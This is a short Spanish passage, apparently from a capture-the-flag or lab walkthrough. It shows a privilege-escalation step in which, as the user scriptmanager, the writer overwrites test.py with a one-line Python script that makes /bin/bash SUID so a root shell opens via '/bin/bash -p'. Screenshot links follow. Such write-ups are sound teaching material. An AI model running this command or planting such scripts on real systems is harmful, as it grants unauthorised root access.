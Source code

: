 Una vez como *scriptmanager*, sustituyo *test.py* por un script malicioso que dará permisos *SUID* a */bin/bash* permitiendo que se pueda obtener una consola como root usando la opción */bin/bash -p*:

```bash
echo 'import os; os.system("chmod 4755 /bin/bash")' > test.py
```

![image](https://user-images.githubusercontent.com/55555187/183288271-a8431037-d83e-41d8-acb8-00650e078f33.png)

![image](https://user-images.githubusercontent.com/55555187/183288307-fe33aec3-1e19-4b1c-a46e-47b4df804fdc.png)

![image](https://user-images.githubusercontent.com/55555187/183288363-54a19912-0d23-417a-a374-e5cfd8bb2f67.png)
